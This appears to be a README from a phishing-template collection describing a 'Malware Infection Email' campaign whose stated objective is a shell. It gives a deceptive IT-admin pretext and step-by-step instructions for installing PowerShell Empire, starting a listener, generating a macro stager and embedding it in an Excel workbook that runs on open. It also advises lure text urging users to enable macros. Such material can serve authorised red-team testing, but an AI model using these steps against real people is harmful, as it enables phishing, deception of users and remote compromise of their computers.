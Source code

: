 # Malware Infection Email

**Objective:** Shell

## Pretext: 
You are an IT Admin and a new virus has been infecting computers. You are sending out a spreadsheet to users who are affected. You're asking the phished users to view the document to make sure they're not on the list and to come see the admin if you are.


## To Change:
Create your own macros (Empire is easiest) to call back. 

## Creating a malicious Macros via Empire
1. Installing Empire
  1.a. git clone git@github.com:PowerShellEmpire/Empire.git
  1.b. ./setup/install.sh
2. Starting up a listener:
  2.a. set host <listening host:port>
  2.b. set whatever parameters you want on this, just type 'info'
  2.c. 'execute'
3. Generating the Macro
  3.a. usestager macro
  3.b. set listener <listener number>
  3.c. 'execute'
  3.d. copy the output function
4. Inserting the macro
  4.a. Open Excel > New Document > 'alt+F11' will get you to the macros
  4.b. Double-clck on "This Workbook"
  4.c. Paste in the macro function from Empire
  4.d. Change the Sub call to 'Auto_Open()'
  4.e. Add the line 'Dim str As String' to the top of the Debugging function call before the powershell call.
  4.f. Go back to the spreadsheet and add in whatever content you want. I like to add in random strings and at the top say that macros needs enabled to view the content. Helps with the pretext.